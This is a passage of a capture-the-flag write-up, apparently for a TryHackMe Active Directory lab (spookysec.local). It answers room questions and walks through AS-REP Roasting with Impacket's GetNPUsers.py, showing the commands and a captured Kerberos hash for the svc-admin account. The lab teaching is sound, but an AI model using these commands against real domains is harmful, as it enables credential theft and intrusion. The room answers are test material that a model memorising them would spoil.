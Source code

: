 The answer is `svc-admin`

#### What is the other notable account is discovered? (These should jump out at you)

`backup`

___

## Exploitation (Abusing Kerberos)

> I highly recommand to watch this [VbScrub - Kerberos](https://www.youtube.com/playlist?list=PL3B8L-z5QU-Z0bWmjwgUSLGTzm1k_kVZo) YouTube playlist before continuing.

> And for french readers, this article from hackndo's blog: [AS-REP Roasting](https://beta.hackndo.com/kerberos-asrep-roasting/)

**AS-REP Roasting** occurs when a user account has the privilege _"Does not require Pre-Authentication"_ set. 

> This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

To take advantage of this, we'll use `GetNPUsers.py` (from **Impacket**) that will allow us to query AS-REP Roastable accounts from the Key Distribution Center. 

> **Note**:The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

{% highlight bash %}
$ locate GetNPUsers.py
/usr/local/bin/GetNPUsers.py
/usr/local/bin/GetNPUsers.pyc
/usr/share/doc/python3-impacket/examples/GetNPUsers.py
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/svc-admin -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:b4c31112ac39aae6cc44a1ee38b898d8$cbdf8ee2166813e2ba6fe8e385f1469d3dbeed4a676a9068c528ab383cf9ae32bffe15ef9b35758c7a2a00c800752004aba07284913712bb68eb4e8f78f41a050bc87f8e3d8599817efcac36b410e56b5927564929f7e5c61b1179db7dd4e6a97e8de381244e145bc0562d31b261f9bbf945f41b89c9a9b0875e35bc35456518acac08a79e03948fd9906eb72f3fbe2a88399f4c1a54f7f2448d79e20979048ff3c4053527c582677c7403a02615a92d8e204c756645849112f8de087e1791909dcf5945a93fffadc60fe94a54f834d4794dd5fce7d36fceb2ac2d591a222b360b0ddcd085aaa7f753f5e868ffa01f3cc4a8
$ python3 /usr/local/bin/GetNPUsers.py spookysec.local/backup -request -dc-ip $TARGET -no-pass
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for backup
[-] User backup doesn't have UF_DONT_REQUIRE_PREAUTH set
{% endhighlight %}

### We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?
